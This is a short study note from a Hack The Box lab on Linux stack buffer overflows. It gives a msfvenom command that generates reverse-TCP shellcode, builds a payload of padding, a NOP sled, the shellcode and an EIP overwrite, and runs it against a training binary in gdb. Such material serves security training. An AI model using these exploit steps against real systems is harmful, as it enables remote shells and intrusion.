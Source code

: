 ```yaml
---
title: "Generate Shellcode"
tags:
  - stack-overflow
  - htb
programming-languagues:
created: 2022-07-12
---
```

# Generate Shellcode
---
This is part of a guide that you can find [[notes/general/htb-stack-based-overflow-linux|here]].

We have to pay attention to:

- Architecture
- Platform
- Bad Characters


We can use `msfvenom` to generate our shellcode:

```bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
```

So:

```bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```

Now we have:

```bash
Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
EIP = "\x66" * 4'
```

So we exploit:

```bash
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc ()
```

We can check if the first bytes of our shellcode matches the bytes after the NOPS:

```bash
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>
```

